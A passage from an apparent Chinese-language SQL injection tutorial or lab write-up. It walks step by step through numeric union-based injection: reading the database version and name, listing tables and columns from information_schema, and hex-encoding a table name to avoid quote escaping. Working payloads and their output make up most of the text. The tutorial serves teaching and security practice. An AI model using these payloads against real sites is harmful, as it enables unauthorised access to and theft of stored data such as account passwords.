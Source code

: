 ###### 4. 显示版本、数据库名等信息

```
输入“1 union select version()#”，显示如下

ID为1 union select version()#的用户名为admin
ID为1 union select version()#的用户名为5.1.28-rc-community

输入“1 union select database()#”，显示如下

ID为1 union select database()#的用户名为admin
ID为1 union select database()#的用户名为blog
```

**得知数据库软件版本为 5.1.28，使用的数据库名为 blog**

###### 5. 获取表名

然后开始爆表

```
输入（为了方便看我加了换行，下同）
“1 union select group_concat(table_name)
from information_schema.tables
where table_schema=database()#”，显示如下

ID为（上面输入的一大串）的用户名为admin
ID为（上面输入的一大串）的用户名为user
```

**得到表名为 user**

###### 6. 获取字段名

继续爆字段  
爆字段的时候要注意一点，因为我们在查询的时候要写入表名，根据上面的经验，我们很自然会输入

```
1 union select group_concat(column_name)
from information_schema.columns
where table_schema=database() and table_name='user'#
```

然后发现这样错了  
因为是**数字型注入**，我们输入的变量在后台是不带引号的，而输入却带引号，会被转义，因此我们要提前将其转义为**十六进制**，从而避免输入引号

```
user的十六进制：0x75736572
输入：
1 union select group_concat(column_name)
from information_schema.columns
where table_schema=database() and table_name=0x75736572#
结果如下

ID为（上面输入的一大串）的用户名为admin

ID为（上面输入的一大串）的用户名为id,account,password
```
